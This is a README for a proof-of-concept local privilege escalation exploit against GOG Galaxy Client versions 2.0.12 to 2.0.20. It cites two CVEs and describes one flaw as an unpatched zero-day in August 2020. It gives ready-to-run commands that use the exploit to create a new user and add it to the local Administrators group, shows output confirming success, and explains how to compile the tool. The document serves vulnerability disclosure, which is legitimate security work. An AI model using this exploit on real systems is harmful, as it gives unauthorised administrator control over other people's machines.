 # GOG Galaxy Client Service Proof-of-Concept Exploit

This is a proof-of-concept exploit for [GOG Galaxy Client](https://www.gog.com/galaxy) v2.0.12 - v2.0.20.  It exploits the following vulnerabilities:

| CVE ID | Reference | Fixed? |
|---|---|---|
|[CVE-2020-7352](https://nvd.nist.gov/vuln/detail/CVE-2020-7352)|https://www.positronsecurity.com/blog/2020-04-28-gog-galaxy-client-local-privilege-escalation/|Yes, in v2.0.13|
|[CVE-2020-24574](https://nvd.nist.gov/vuln/detail/CVE-2020-24574)|https://www.positronsecurity.com/blog/2020-08-13-gog-galaxy_client-local-privilege-escalation_deuce/|**NO**|

Interestingly, on August 19, 2020, GOG released v2.0.20 with the change log that states, *"Security issue fix: Added checks that ensure the loaded .DLLs are genuine"*.  However, the v2 exploit, reported publicly on August 13, *still works!*  This was reported to GOG support personnel, who responded on August 21 with: "The recent update to GOG GALAXY application (2.0.20) is unrelated to your report, it was released to address a different issue."  It is unknown what vulnerability this update addresses.

As of this writing (August 25, 2020), this proof-of-concept is a **zero-day exploit** against the latest version of GOG Galaxy (v2.0.20).

## Example

To create a new user, then add that user to the local `Administrators` group, execute the following two commands:

```
galaxy_dll_inject_privesc.exe --key2 C:\Windows\System32\net.exe "user jtesta Abc*123Lol /add" "C:\\"
galaxy_dll_inject_privesc.exe --key2 C:\Windows\System32\net.exe "localgroup Administrators jtesta /add" "C:\\"
```

To verify that the administrator user was successfully created, execute `net user jtesta`:
```
User name                    jtesta
[...]
Local Group Memberships      *Administrators       *Users
[...]
The command completed successfully.
```

## Compiling From Source

The MinGW toolchain on Linux is necessary.  Install the prerequisites with:

```
  # apt install build-essential gcc-mingw-w64-i686
```

Then simply type `make` to compile.
